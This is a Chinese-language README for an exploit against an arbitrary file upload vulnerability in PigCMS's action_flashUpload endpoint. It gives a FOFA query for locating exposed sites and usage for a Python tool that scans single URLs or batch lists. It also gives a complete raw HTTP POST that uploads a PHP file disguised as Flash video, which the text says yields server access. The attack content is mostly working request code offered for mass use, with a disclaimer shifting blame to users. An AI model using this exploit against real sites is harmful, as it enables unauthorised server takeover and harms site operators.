


# PigCMS action_flashUpload 任意文件上传漏洞

PigCMS action_flashUpload 方法中存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取到服务器权限

## Fofa指纹

app="PigCMS"

## 工具利用

python3 PigCMS_fileupload.py -u http://127.0.0.1:1111 单个url测试

python3 PigCMS_fileupload.py -f url.txt 批量检测

扫描结束后会在当前目录生成存在漏洞url的vuln.txt

poc：



## exp

```
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.2840.80 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=----aaa
Content-Length: 134

------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv

<?php print "qaxnb123";?>
------aaa
```

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
